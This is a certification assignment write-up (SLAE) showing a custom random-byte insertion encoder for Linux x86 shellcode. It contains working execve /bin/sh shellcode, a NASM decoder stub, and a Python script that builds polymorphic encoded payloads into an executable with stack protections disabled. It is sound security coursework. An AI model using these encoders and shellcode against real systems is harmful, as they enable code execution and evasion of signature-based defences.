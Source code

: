 # Assignment #4: 

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

### Problem
- Create a custom encoding scheme like the “Insertion Encoder” we showed you
- PoC with using execve-stack as the shellcode to encode with your schema and execute

### Solution

As per the requirements of this assignment, the first thing component that we need is an encoding scheme. Then, we would need to take an execve shellcode that works by using the stack, and encode it using our scheme. Finally, a decoder stub in NASM is required to decode and execute our encoded shellcode in memory. 

The scheme used for this assignment is based on the *insertion encoder* showed in the course. The scheme is complemented with insertions of randomly generated bytes and an additional control byte that specifies the length of our original shellcode. This technique allows generating polymorphic versions every time an encoded shellcode is created, as well as permits substitution of the execve shellcode by any other sequence of opcodes without having to adjust the length variable manually.

The scheme in itself is rather simple:

```
byte[0]     --> length of original shellcode
byte[odd]	--> random
byte[even]	--> original shellcode
```

The first byte of our encoded shellcode is the length of our original shellcode. Of course, this means that the maximum length we could have is 255, which is more than sufficient for any shellcoding situation. Following it, all odd bytes will contain randomly generated bytes and all even bytes will be the original shellcode.

The following execve-stack shellcode was used for this assignment:

```nasm
00000000  31C0              xor eax,eax
00000002  50                push eax
00000003  682F2F7368        push dword 0x68732f2f
00000008  682F62696E        push dword 0x6e69622f
0000000D  8D1C24            lea ebx,[esp]
00000010  50                push eax
00000011  8D1424            lea edx,[esp]
00000014  53                push ebx
00000015  8D0C24            lea ecx,[esp]
00000018  B00B              mov al,0xb
0000001A  CD80              int 0x80
```


Based on the encoding scheme proposed for this assignment, the following NASM decoder stub was written:

```nasm
; insertion decoder
;
; expected format:
;		byte[0] 	--> length of shellcode
;		byte[odd]	--> random
;		byte[even]	--> shellcode

global _start
section .text
_start:

	jmp short stage

decoder:
	pop esi
	mov dl, byte [esi] 			; byte[0] 	--> length of shellcode
	xor ecx, ecx 				; counter = 0

decode:
	mov bl, byte [esi+ecx+2]	; next shellcode byte
	mov byte [esi], bl			; move shellcode to current position
	inc esi						; next position
	inc ecx 					; counter++
	cmp cl, dl 					; at the end of shellcode?
	jnz short decode 			; 	if not, keep decoding
	jmp short shellcode			; 	else, execute decoded shellcode


stage:
	call decoder
	shellcode: db 0x1c,0x42,0x31,0xf6,0xc0,0xd0,0x50,0xe0,0x68,0xb9,0x2f,0xb2,0x2f,0x7a,0x73,0xfb,0x68,0xe6,0x68,0x8c,0x2f,0x41,0x62,0xb3,0x69,0xcc,0x6e,0x35,0x8d,0x09,0x1c,0x2a,0x24,0x8b,0x50,0x6a,0x8d,0xb4,0x14,0x14,0x24,0xdc,0x53,0xe8,0x8d,0x26,0x0c,0x0b,0x24,0x97,0xb0,0xc8,0x0b,0x59,0xcd,0xcd,0x80
```

Finally, everything was combined into a Python script that takes the execve shellcode, encodes it according to the scheme, and generates an executable file by prepending the decoder stub.

## encoder.py

```python
#!/usr/bin/python


import struct
import os
import sys

if len(sys.argv) < 2:
	sys.exit("Usage: encode.py [output.elf]")

decoder = (
	"\xeb\x13\x5e\x8a\x16\x31\xc9\x8a\x5c\x0e\x02\x88\x1e"
	"\x46\x41\x38\xd1\x75\xf4\xeb\x05\xe8\xe8\xff\xff\xff"
)

shellcode = (
	"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x8d"
	"\x1c\x24\x50\x8d\x14\x24\x53\x8d\x0c\x24\xb0\x0b\xcd\x80"
)

if len(shellcode) > 0xff: sys.exit("Shellcode is too long.")


##### Encode using random byte insertion
#
#		byte[0]		--> length of shellcode
#		byte[odd]	--> junk
#		byte[even]	--> shellcode


junk = os.urandom(len(shellcode))

encoded = "\\x%02x" % len(shellcode)
encoded2 = "0x%02x," % len(shellcode)

for i in range(0, len(shellcode)):
	encoded += "\\x%02x\\x%02x" % (bytearray(junk)[i], bytearray(shellcode)[i])
	encoded2 += "0x%02x,0x%02x," % (bytearray(junk)[i], bytearray(shellcode)[i])



##### Generate an executable

skeleton = '''
#include<stdio.h>
#include<string.h>
unsigned char code[] = \
	"__DECODER__"
	"__SHELLCODE__";
void main()
{
	printf("Shellcode Length: %d\\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
'''

stub = ""
for d in bytearray(decoder):
	stub += "\\x%02x" % d

skeleton = skeleton.replace("__DECODER__", stub)
skeleton = skeleton.replace("__SHELLCODE__", encoded)

with open("a.c", "w") as f:
	f.write(skeleton)

os.system("gcc a.c -fno-stack-protector -z execstack")
os.rename("a.out", sys.argv[1])
os.remove("a.c")





print
print "[*] Original Shellcode Length: %d" % len(shellcode)
print "[*] Encoded Shellcode Length: %d" % (len(shellcode) * 2 + 1)
print "[*] Decoder Stub Length: %d" % len(decoder)
print "[*] Payload Length: %d" % (len(decoder) + (len(shellcode) * 2 + 1))
print
print "[+] Decoder Stub:\n\n%s" % stub
print
print "[+] Encoded Shellcode:\n\n%s\n\n%s" % (encoded, encoded2)
print
print "[+] Executable: %s" % sys.argv[1]
print

```

## Example

A sample run produces the following output:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-4/a4.png "Example")
